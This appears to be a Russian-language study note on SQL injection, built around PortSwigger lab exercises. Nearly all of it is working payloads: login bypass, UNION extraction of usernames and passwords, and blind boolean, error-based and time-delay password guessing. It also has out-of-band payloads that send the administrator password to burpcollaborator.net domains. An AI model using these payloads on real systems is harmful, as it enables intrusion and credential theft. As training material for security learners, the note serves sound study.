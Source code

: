 [SQL Injection](https://portswigger.net/web-security/sql-injection)

[Cheat Sheet from PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet) ^896bf6

## Извлечение скрытых данных
Запрос принимает _category_:

	SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Инъекция:

	' OR 1=1--

## Нарушение логики приложения
Запрос принимает _username_ и _password_:

	SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Инъекция:

	administrator'--

## Извлечение данных из других таблиц БД
Запрос принимает _category_:

	SELECT name, description FROM products WHERE category = 'Gifts'

Инъекция:

	' UNION SELECT username, password FROM users--

**Определение количества столбцов для UNION**
С помощью _ORDER BY_:

	' ORDER BY 1-- 
	' ORDER BY 2-- 
	' ORDER BY 3--
	etc.

С помощью _UNION SELECT NULL_:

	' UNION SELECT NULL--
	' UNION SELECT NULL,NULL-- 
	' UNION SELECT NULL,NULL,NULL--
	etc.

Для Oracle:

	' UNION SELECT NULL FROM DUAL--

**Поиск столбцов с полезным типом данных для SQL-инъекции UNION**
Поиск строкового столбца, 4 столбца:

	' UNION SELECT 'a',NULL,NULL--
	' UNION SELECT NULL,'a',NULL--
	' UNION SELECT NULL,NULL,'a'--

**SQL-инъекция UNION**
Зная название таблицы, столбцов, а также  их нужное количество:

	' UNION SELECT username, password FROM users--

**Извлечение нескольких значений в одном столбце**
Два столбца, только второй строковой:

	' UNION SELECT NULL,username||'~'||password FROM users--

Операторы конкатенации в разных БД в [[#^896bf6|Cheat Sheet'е]]

## Изучение БД
Определение версии, например, для Oracle:

	' SELECT * FROM v$version
	' UNION SELECT null,banner from v$version--

Список таблиц для большинства БД:

	' SELECT * FROM information_schema.tables

Пример для non-Oracle:

	' UNION SELECT NULL,NULL
	' UNION SELECT table_schema,table_name FROM information_schema.tables--
	' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_fekyvk'--
	' UNION SELECT username_sowiok,password_rvcfaz FROM users_fekyvk--

Пример для Oracle:

	' UNION SELECT NULL,NULL FROM DUAL--
	' UNION SELECT NULL,table_name FROM all_tables--
	' UNION SELECT NULL,column_name FROM all_tab_columns where table_name='USERS_DSDXRK'--
	' UNION SELECT USERNAME_PCGUWT,PASSWORD_DDEJBN FROM USERS_DSDXRK--

## Blind SQL-инъекции
##### Эксплуатация слепой SQL-инъекции путем запуска условного ответа
Пример для подбора пароля из [первой](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) лабы по слепым инъекциям _(условный ответ, инъекция в куке)_

	' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) > 'm

##### Вызов условных ответов путем запуска ошибок SQL
Пример для подбора пароля из [второй](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) лабы по слепым инъекциям _(условная ошибка, инъекция в куке, Oracle)_
Проверка ошибки валидным запросом (ошибка)

	'||(SELECT '')||'

Возможно, БД Oracle (siuu)

	'||(SELECT '' FROM dual)||'

Проверяем существование таблицы _users_

	'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

Теперь проверяем conditional error

	'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (ошибка)
	'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' (нет ошибки)

Проверим, существует ли имя пользователя _administrator_ (ошибка если есть)

	'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Определяем длину пароля (ошибка если значение совпало)

	'||(SELECT CASE WHEN (LENTGH(password)=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Подбираем пароль

	'||(SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

##### Эксплуатация слепых SQL-инъекций путем инициирования временных задержек
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Пример для [четвертой](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) лабы
Перебором разных пэйлоадов определяем БД (PostgreSQL)

	'%3Bpg_sleep(10)--

Составляем валидный запрос

	'%3B+SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--

Проверяем существование пользователя

	'%3B+SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

Определяем длину пароля

	'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
	'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

Тут в Бурпе особо не автоматизировать, нужно запустить 20 раз интрудер с 1 потоком и ловить задержки

	'%3B+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)>'m')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

##### Эксплуатация слепых SQL-инъекций с помощью out-of-band (OAST) методов*
Полезные нагрузки для разных БД в [[#^896bf6|Cheat Sheet'е]]

Для out-of-band взаимодействия можно использовать различные сетевые протоколы, но обычно наиболее эффективным является DNS (служба доменных имен). Это связано с тем, что очень многие производственные сети позволяют свободно передавать DNS-запросы, поскольку они необходимы для нормальной работы производственных систем.
В Microsoft SQL Server для запуска DNS-запроса на определенный домен можно использовать: 

	'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

Приложение использует cookie-файл отслеживания для аналитики и выполняет SQL-запрос, содержащий значение переданного cookie. SQL-запрос выполняется асинхронно и не влияет на ответ приложения. Однако можно запустить внеполосное взаимодействие с внешним доменом. БД Oracle.

Например, можно объединить SQL-инъекцию с базовыми техниками XXE следующим образом (_уязвимость была устранена_):

	TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

Пример запроса для эксфильтрации данных:

	'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--

Пример из второй лабы по out-of-band слепым инъекциям:

	'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'
	x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.zuxdgr1aog6aoa2udnrdhvfu9lfj38.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

Лабы

[Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

[Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)